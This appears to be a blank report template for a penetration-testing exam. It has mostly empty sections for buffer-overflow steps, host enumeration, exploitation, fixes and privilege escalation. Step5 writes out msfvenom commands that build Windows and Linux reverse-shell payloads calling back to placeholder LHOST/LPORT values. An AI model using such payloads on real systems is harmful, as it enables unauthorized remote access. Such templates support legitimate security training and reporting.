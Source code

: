 **Step2: Finding offset & EIP**

**Step3: Finding badChars**

**Step4: Finding JMP**

**Step5: Generating payload**

1. msfvenom -p windows/shell_reverse_tcp LHOST=IP LPORT=PORT EXITFUNC=thread -b "badChars" -f c
2. [OR]
3. msfvenom -p linux/x86/shell_reverse_tcp LHOST=IP LPORT=PORT EXITFUNC=thread -b "badChars" -f c

**Step6: Prepend NOPs**

**Step7: Test on testbed environment**

**Target Exploitation:**

**proof.txt screenshot:**

![Contents of proof.txt]()

**proof.txt Contents:** `KEY`

\pagebreak

### IP: IP - HOSTNAME

#### Service Enumeration

TARGET IP | Ports Open
----------|------------------------
IP        | **TCP**: \
**UDP**:

**Scan Results:**

![tcp scan results]()

![udp scan results]()

**Enumeration:**

**Exploitation Overview:**

**Vulnerability Explanation:**

**Vulnerability Fix:**

**Severity:**

**local.txt screenshot:**

![Contents of local.txt]()

**local.txt Contents:** `KEY`

#### Privilege Escalation

